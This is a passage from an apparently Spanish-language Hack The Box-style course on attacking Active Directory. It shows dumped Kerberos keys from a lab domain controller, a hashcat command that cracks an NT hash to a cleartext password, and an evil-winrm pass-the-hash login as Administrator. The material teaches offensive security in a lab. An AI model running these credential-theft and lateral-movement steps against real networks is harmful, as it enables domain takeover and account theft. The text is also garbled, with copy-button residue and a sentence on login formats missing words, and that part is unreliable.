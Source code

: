 ```plaintext
SMB         10.129.201.57    445     DC01           krbtgt:des-cbc-md5:9bd5017fdcea8fae
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes128-cts-hmac-sha1-96:d2377357d473a5309505bfa994158263
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:des-cbc-md5:79ab08755b32dfb6
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes256-cts-hmac-sha1-96:881e693019c35017930f7727cad19c00dd5e0cfbc33fd6ae73f45c117caca46d
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:aes128-cts-hmac-sha1-
```

```plaintext
plaintextCopiar código[*] Dumped 61 NTDS hashes to /home/bob/.cme/logs/DC01_10.10.15.30_2022-01-19_133529.ntds of which 15 were added to the database
```

### Cracking Hashes y Obteniendo Credenciales

Podemos proceder creando un archivo de texto que contenga todos los hashes de NT, o podemos copiar y pegar individualmente un hash específico en una sesión de terminal y usar **Hashcat** para intentar romper el hash y obtener una contraseña en texto claro.

#### Rompiendo un Hash Único con Hashcat

```bash
bashCopiar código### Atacando Active Directory & NTDS.dit
sherlock28@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

```plaintext
plaintextCopiar código64f12cddaa88057e06a81b54e73b949b:Password1
```

En muchas de las técnicas que hemos cubierto hasta ahora, hemos tenido éxito al romper hashes que hemos obtenido.

#### ¿Qué pasa si no tenemos éxito en romper un hash?

### Consideraciones de Pass-the-Hash

Aún podemos usar hashes para intentar autenticar a un sistema utilizando un tipo de ataque llamado **Pass-the-Hash (PtH)**. Un ataque PtH aprovecha el protocolo de autenticación **NTLM** para autenticar a un usuario usando un hash de contraseña. En lugar de usar el formato **nombre de usuario**

**ña en texto claro** para el inicio de sesión, podemos usar **nombre de usuariode contraseña**. Aquí hay un ejemplo de cómo funcionaría esto:

#### Pass-the-Hash con Evil-WinRM Ejemplo

```bash
bashCopiar código### Atacando Active Directory & NTDS.dit
sherlock28@htb[/htb]$ evil-winrm -i 10.129.201.57  -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

Podemos intentar utilizar este ataque cuando necesitemos movernos lateralmente a través de una red después de haber comprometido un objetivo inicial. Más sobre PtH se cubrirá en el módulo de Enumeración de AD y Ataques.
